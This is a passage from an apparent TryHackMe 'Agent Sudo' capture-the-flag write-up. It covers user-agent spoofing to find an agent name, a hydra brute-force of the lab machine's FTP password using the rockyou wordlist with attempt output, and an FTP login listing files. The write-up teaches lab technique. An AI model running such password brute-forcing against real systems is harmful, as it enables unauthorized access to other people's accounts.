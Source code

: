 ```bash

From,<br>
Agent R 
```

Setting the user-agent as A, and B didn’t give any result but when I set the user-agent to C, we got the above response and from there we can see that agent C stands for Agent Chris

*Q3 What is the agent name?: Chris*

Also, from the response we can see that Chris has set a weak password. Now there were 2 other services that we could see from the nmap result: ftp and ssh

and the next question asks us what is the ftp password, so we have brute-force Chris’s FTP password

Using hydra for this purpose

## 3. FTP Service Exploitation


### 3.1 Password Brute Force Attack
```bash
hydra -l chris -P /usr/share/wordlists/rockyou.txt -t 50 -vV 10.10.39.168 ftp

[ATTEMPT] target 10.10.39.168 - login "chris" - pass "friend" - 247 of 14344399 [child 39] (0/0)
[ATTEMPT] target 10.10.39.168 - login "chris" - pass "jesus1" - 248 of 14344399 [child 43] (0/0)
[ATTEMPT] target 10.10.39.168 - login "chris" - pass "crystal" - 249 of 14344399 [child 45] (0/0)
[ATTEMPT] target 10.10.39.168 - login "chris" - pass "celtic" - 250 of 14344399 [child 46] (0/0)
[21][ftp] host: 10.10.39.168   login: chris   password: REDACTED
[STATUS] attack finished for 10.10.39.168 (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-07-28 22:32:50
```

*Got it! and we are done with Q4*


### 3.2 FTP Login and File Discovery 

Now, let’s login into FTP using this credential

```bash
┌──(lightning㉿Lightning)-[~/…/Study/tryHackMe/rooms/agentSudo]
└─$ ftp 10.10.39.168                  
Connected to 10.10.39.168.
220 (vsFTPd 3.0.3)
Name (10.10.39.168:lightning): chris
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
ftp> ls
229 Entering Extended Passive Mode (|||52867|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
```
